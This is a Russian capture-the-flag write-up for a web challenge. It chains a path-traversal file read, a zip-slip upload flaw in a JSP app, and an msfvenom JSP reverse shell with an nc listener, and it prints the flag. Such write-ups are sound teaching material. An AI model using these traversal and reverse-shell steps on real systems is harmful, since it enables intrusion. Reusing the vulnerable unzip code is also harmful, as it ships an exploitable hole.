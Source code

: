 # Тайна четвертой планеты

На главной странице находится база известных планет. Попробуем взглянуть на одну из них:

![Юпитер](url.png)

С ходу бросается в глаза GET параметр **file**. Давайте попробуем поменять его значние, скажем, на `../../../../../etc/passwd`

![Ошибка](lfi_error.png)

Отлично, мы нашли LFI. Теперь можем ликнуть исходный код:

```bash
$ curl https://its-planetdb-aywslqa6.spbctf.ru/view.jsp?file=../../../../../../usr/local/tomcat/webapps/ROOT/index.jsp
$ curl https://its-planetdb-aywslqa6.spbctf.ru/view.jsp?file=../../../../../../usr/local/tomcat/webapps/ROOT/view.jsp
$ curl https://its-planetdb-aywslqa6.spbctf.ru/view.jsp?file=../../../../../../usr/local/tomcat/webapps/ROOT/upload.jsp
```

В *upload.jsp* есть возможность загрузки ZIP архивов, однако имена файлов никак не валидируются:

```java
if (fileName.endsWith(".zip")) {
    try (ZipInputStream zis = new ZipInputStream(item.getInputStream())) {
        ZipEntry zipEntry;

        while ((zipEntry = zis.getNextEntry()) != null) {
            String zipEntryName = zipEntry.getName();
            String savePath = "/usr/local/tomcat/webapps/ROOT/markdowns/" + File.separator + zipEntryName;
            File newFile = new File(savePath);
            new File(newFile.getParent()).mkdirs();

            try (FileOutputStream fos = new FileOutputStream(newFile)) {
                int len;
                byte[] buffer = new byte[1024];

                while ((len = zis.read(buffer)) > 0) {
                    fos.write(buffer, 0, len);
                }
            }
            
        }
    }
}
```

А значит теперь у нас есть **Arbitrary Write**. Так как текущий пользователь может записывать в */usr/local/tomcat/webapps/ROOT/* мы легко можем получить RCE. Подготовим payload:

```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=host LPORT=port -o rce.jsp
$ mkdir 1 && cd 1
$ zip payload.zip ../rce.jsp
```

Загрузим архим и получим шелл:

```bash
$ nc -nlvp port
$ curl https://its-planetdb-aywslqa6.spbctf.ru/rce.jsp
```

Флаг лежал в корне:

```bash
$ ls /
...
flag-YEOdT2KINQ96.txt
...

$ cat /flag-YEOdT2KINQ96.txt
its{5uDD3n_d1amOND_du57_D373C7ed_In_7he_C0Gs_oF_pl4neTDb}
```